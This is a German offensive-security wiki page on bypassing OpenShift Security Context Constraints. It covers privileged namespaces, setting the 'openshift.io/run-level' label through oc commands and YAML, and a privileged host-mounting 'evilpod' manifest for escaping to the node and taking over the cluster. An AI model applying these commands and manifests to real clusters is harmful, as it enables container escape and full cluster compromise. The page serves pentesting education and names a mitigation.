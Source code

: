 # Openshift - SCC Umgehung

**Der ursprüngliche Autor dieser Seite ist** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privilegierte Namespaces

Standardmäßig gilt SCC nicht für die folgenden Projekte:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Wenn Sie Pods in einem dieser Namespaces bereitstellen, wird kein SCC durchgesetzt, was die Bereitstellung privilegierter Pods oder das Einhängen des Host-Dateisystems ermöglicht.

## Namespace-Label

Laut der RedHat-Dokumentation gibt es eine Möglichkeit, die SCC-Anwendung auf Ihrem Pod zu deaktivieren. Sie benötigen mindestens eine der folgenden Berechtigungen:

- Erstellen Sie einen Namespace und erstellen Sie einen Pod in diesem Namespace.
- Bearbeiten Sie einen Namespace und erstellen Sie einen Pod in diesem Namespace.
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Die spezifische Bezeichnung `openshift.io/run-level` ermöglicht es Benutzern, SCCs für Anwendungen zu umgehen. Gemäß der RedHat-Dokumentation, wenn dieses Label verwendet wird, werden keine SCCs auf alle Pods innerhalb dieses Namensraums durchgesetzt, wodurch alle Einschränkungen effektiv aufgehoben werden.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Label hinzufügen

Um das Label in Ihrem Namensraum hinzuzufügen:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Um einen Namespace mit dem Label über eine YAML-Datei zu erstellen:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Nun sollten alle neuen Pods, die im Namespace erstellt werden, keine SCC haben

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In Abwesenheit von SCC gibt es keine Einschränkungen für Ihre Pod-Definition. Dies bedeutet, dass ein bösartiger Pod problemlos erstellt werden kann, um auf das Host-System zu entkommen.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Jetzt ist es einfacher geworden, Berechtigungen zu eskalieren, um auf das Host-System zuzugreifen und anschließend die gesamte Cluster-Kontrolle zu übernehmen und 'cluster-admin'-Berechtigungen zu erlangen. Suchen Sie nach dem **Node-Post Exploitation**-Teil auf der folgenden Seite:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Benutzerdefinierte Labels

Darüber hinaus können je nach Zielsetup einige benutzerdefinierte Labels / Annotationen auf die gleiche Weise wie im vorherigen Angriffsszenario verwendet werden. Auch wenn es nicht dafür vorgesehen ist, könnten Labels verwendet werden, um Berechtigungen zu erteilen, Ressourcen einzuschränken oder nicht einzuschränken.

Versuchen Sie, benutzerdefinierte Labels zu finden, wenn Sie auf einige Ressourcen zugreifen können. Hier ist eine Liste interessanter Ressourcen:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Liste aller privilegierten Namespaces
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Fortgeschrittener Exploit

In OpenShift kann das Berechtigen zum Bereitstellen eines Pods in einem Namespace mit dem Label `openshift.io/run-level` wie zuvor demonstriert zu einer unkomplizierten Übernahme des Clusters führen. Aus der Perspektive der Cluster-Einstellungen **kann diese Funktionalität nicht deaktiviert werden**, da sie inherent für das Design von OpenShift ist.

Jedoch können Maßnahmen zur Minderung wie **Open Policy Agent GateKeeper** Benutzer daran hindern, dieses Label zu setzen.

Um GateKeeper-Regeln zu umgehen und dieses Label zu setzen, um eine Cluster-Übernahme durchzuführen, **müssten Angreifer alternative Methoden identifizieren.**

## Referenzen

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
